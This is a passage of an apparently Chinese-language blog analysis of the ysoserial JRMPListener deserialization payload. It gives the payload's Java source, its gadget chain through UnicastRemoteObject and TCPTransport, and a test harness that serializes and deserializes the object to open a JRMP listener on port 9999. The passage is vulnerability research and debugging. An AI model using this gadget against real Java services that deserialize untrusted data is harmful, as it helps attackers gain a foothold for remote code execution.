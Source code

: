 对应代码如下

```
public class JRMPListener extends PayloadRunner implements ObjectPayload<UnicastRemoteObject> {

    public UnicastRemoteObject getObject ( final String command ) throws Exception {
        int jrmpPort = Integer.parseInt(command);
        UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
            RemoteRef.class
        }, new Object[] {
            new UnicastServerRef(jrmpPort)
        });

        Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
        return uro;
    }


    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(JRMPListener.class, args);
    }
}
```

给出的利用链

```
Gadget chain:
* UnicastRemoteObject.readObject(ObjectInputStream) line: 235
* UnicastRemoteObject.reexport() line: 266
* UnicastRemoteObject.exportObject(Remote, int) line: 320
* UnicastRemoteObject.exportObject(Remote, UnicastServerRef) line: 383
* UnicastServerRef.exportObject(Remote, Object, boolean) line: 208
* LiveRef.exportObject(Target) line: 147
* TCPEndpoint.exportObject(Target) line: 411
* TCPTransport.exportObject(Target) line: 249
* TCPTransport.listen() line: 319
```

**测试代码**

采用如下代码调试分析

```
package ysoserial;

import ysoserial.payloads.JRMPListener;

import java.io.*;
import java.rmi.server.UnicastRemoteObject;

public class test {
    public static void main(String[] args) throws Exception {
        JRMPListener jrmpListener = new JRMPListener();
        UnicastRemoteObject object = jrmpListener.getObject("9999");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream bjos = new ObjectOutputStream(bos);
        bjos.writeObject(object);


        ByteArrayInputStream bait = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ojis = new ObjectInputStream(bait);
        Object o = ojis.readObject();

    }
}
```